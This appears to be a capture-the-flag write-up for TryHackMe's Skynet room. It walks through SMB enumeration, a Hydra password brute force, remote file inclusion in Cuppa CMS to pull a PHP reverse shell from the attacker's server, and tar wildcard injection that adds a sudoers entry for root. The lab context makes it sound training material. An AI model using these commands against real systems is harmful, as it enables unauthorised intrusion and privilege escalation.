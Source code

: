 # Skynet: The Ultimate Terminator CTF Guide 🤖

Terminator? I don't even know her! (Enter 90's laugh track here). No but seriously, the [Skynet Try Hack Me CTF](https://tryhackme.com/room/skynet) was so much fun and it was challenging, and so I had to write a write-up on it! When you're ready, put up your imaginary Terminator posters, and let's "get back" to it! 😆

![Skynet CTF](https://media.giphy.com/media/C3DJ5zE2l2VUc/giphy.gif)

Just a quick note before we start. If you run the IP address of your given machine in the browser, you are met with a "search engine" that does not work. I just wanted to get it out of the way before we start, because this page is useless and I don't want to leave you wondering.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/l9akjb0rjtco6hjlt01g.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/n55688hushs7f69tqxq7.png)

---

## What is Miles password for his emails?
Before we get _crackalacking_ at Miles' emails, we need to do some basic enumeration. Let's start with an nmap scan to see what services are running on our open ports. Let's take note of our Samba smbd workgroup that is running, as this means we can exploit it via [smbclient](https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/)!

`nmap -sV -Pn <your machine IP>`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/nse2gm6gg2fc59rgrdz7.png)

Let's go ahead and scan for workgroup shares using smbclient. 
`smbclient -L \\\\<your machine IP>` 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/gftn3euw0ktccfzh6x9w.png)

We can identify two important shares: milesdyson and anonymous. When we try to log in with milesdyson without a password/username we get an access denies status, yet, we can log in to anonymous this way.
`smbclient //10.10.58.198/anonymous -U " "%" "`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/wkyjagc3bzum3r0o56wo.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/m7zy8j9cmpc73632no0b.png)

When we read the `attention.txt` file from anonymous's share we can see that all users had to change their passwords. When we read the `logs` we can see that it contains all the changed passwords! (Only log1.txt contains any data. Log2 and 3 have no data).
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/6zt1h49qjej0d5p5p7jd.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4laul80a0d3c1149m4h7.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/adh3w49ku0kkusn31i2p.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/kg0084x49lmhiqwn3ptf.png)

Copy the data from logs1.txt into a .txt file on your Desktop, or download it from smb and copy it. Then create a file named `users.txt` in the same directory as your `log1.txt` and insert one value into it: "Miles".
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4gwygy29yh9h9s38pc7c.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/lccn2n4yemxxea8u3gh5.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/c1anli6f6rlmntsqp5uq.png)
   
Now we can use Hydra to brute force Miles's password.
`
export ip=<your machine IP>
hydra -L users.txt -P log1.txt $ip smb -V -f
` 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/0jsavb7pt7jdb7zert67.png)

Tada! We have our password!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/fgdjxluisgoy5i0l2tkg.png)
 
---

## What is the hidden directory?
Okay, before we continue, let's run a gobuster scan to see which directories we can navigate to.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small-txt -u <your machine IP> -t 50`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/l2csly06aftrbhsg9y9k.png)

From there on, we can navigate to /administrator in our browser. We are met with a SquirrelMain Login page. 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/cntenend21ublqs3jvp8.png)

Let's see if we can log in with the credentials username: `milesdyson`, password: `cyborg007haloterminator`. Success!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/q1634i3d740jkfi2ra03.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ix8nuer1ym8218un6ddw.png)

If we read the seranakogan@skynet emails, we realize it's useless binary code. The important email is from skynet@skynet as it contains Miles' smbclient password!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/u9b54waufyvw8niswfs0.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/odz5q4cpeahr1b1fqyt6.png)

Let's head back to our terminal and try to log in this time with milesdyson's username and the password from the email above.
`smbclient //<your machine IP>/milesdyson -U "milesdyson"`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/bvfbh8xq84q93xfpuja0.png)

We now have access to his smb! We are hacker masters. Let's see what is in his `/notes` directory.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xupclxtrcfgm20x94kfp.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/3ulv6g3i7azonhv1tm7c.png)

When we read the contents of the `/important.txt` file, we get our hidden directory!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mo8j869ugthwmz2c95xw.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qdqq02way5mg86up4jzg.png)

---

## What is the vulnerability called when you can include a remote file for malicious purposes?
[Remote file inclusion (RFI)](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. The perpetrator’s goal is to exploit the referencing function in an application to upload malware (e.g., backdoor shells) from a remote URL located within a different domain.  
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/y84n8x8oc0pqx16urks6.png)

---

## What is the user flag? 
Okay, now the hard work starts. First things first, let's see what is in our `/45kra24zxs28v3yd` hidden directory.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/y9vhgbtefbrccxlknv55.png)

It's just a personal page. Maybe gobuster can tell us more.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small-txt -u http://<your machine IP>/45kra24zxs28v3yd -t 50` 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/x18hz4q48v3mxpdfqhyl.png)

Let's now go to our `/45kra24zxs28v3yd/administrator` directory. We are met with a Cuppa CMS page (which cannot be cracked with sqli attacks such as 'admin OR 1=1--;!)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/hr01m24xnlrvly1pfgoo.png)

With some digging, we can see that the Cuppa CMS system is subject to remote file inclusion attacks, which means that we can upload a reverse shell to gain access to user data!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/b4bq3twf5ynwitbzn1kz.png) 
 
Okay, let's get our reverse shell going. To make it easy for you, you can just open up your terminal and run the following command to pull one from [Pentestmonkey's GitHub](https://github.com/pentestmonkey/php-reverse-shell).
`wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ksztc85jb0enhk461ctx.png)

With our reverse-shell downloaded, we need to change two values: our IP address and our port. I keep my port at the default 1234, because I don't care. Change the IP address in your php-reverse-shell.php script to the IP address of your OPENVPN/attacker machine IP, not your lab's target machine. I did this via [vim](https://www.designbombs.com/mastering-vim-commands-the-ultimate-list/), but you can do it manually by naviagting to it if you want.
`vim php-reverse-shell.php`

![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/p3qws6wevqnjf1nvmhey.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qo76pl4fc1t1yfw3eguq.png)

Next up, start up a netcat listener on the port defined above (in my case, 1234).
`sudo nc -nlvp 1234`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/j9zzhqh1wlwbftosu0eh.png)

Then, start up a python server which will serve our reverse shell.
`sudo python3 -m http.server`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/bwhb90l4tl9ftkk8ml5r.png)

Now, go back to your browser and enter the following URL (replacing the IP's with your values).
`http://<machine IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<OPENVPN IP>:8000/php-reverse-shell.php`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pgt5hng5ut9rb0p0mx5k.png)
 
Notice the changes on your `python server`:
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/j8xwbkolocq3m68ibttr.png)
And your `netcat listener`:
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/tlryjyotoz2drgtyyezp.png)

Our reverse shell worked! We now have access! Now we can just navigate to `user.txt` and read our user flag!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ctg11pp6mu4vifej5bvo.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/izwkb1qdv95mkc8idkjf.png)

---

## What is the root flag?   
We still only have www-data access. We need to find a way to get root access. Let's navigate to `/home/milesdyson/backups` and see what we can find.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/uwuagjmguue426hy6vvq.png)

This backup file gets a shell, navigates to the /var/www/html directory and creates a backup of everything in the directory. Read more on how we can exploit this on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), but for now, I'm just going to show you.

*Side note: We can also find the same information as above by running the `cat /etc/crontab` command. 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/529xn9ksiumep65693p4.png)

To exploit our tar, do the following:
`cd /var/www/html`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/jgdxr8dnl4756d6aobbx.png)

1. `echo 'echo "www-data ALL=(root) NOPASSWD; ALL" >> etc/sudoers' > sudo.sh`
2. `touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh`
3. `touch "/var/www/html/--checkpoint=1`
4. `sudo su`

![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/v2acfk1lnuf3a4hfry65.png)

We now have root access. We can simply now cd into `/root` and get our flag!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qk2ult9o4wye15j9i0pj.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/7bp4txycym95awozfgkb.png)

---

## Conclusion
Congratulations! You have successfully completed the Skynet CTF. I hope this was easy enough to follow, and that you had fun along the way. Until next time, happy hacking! 😊
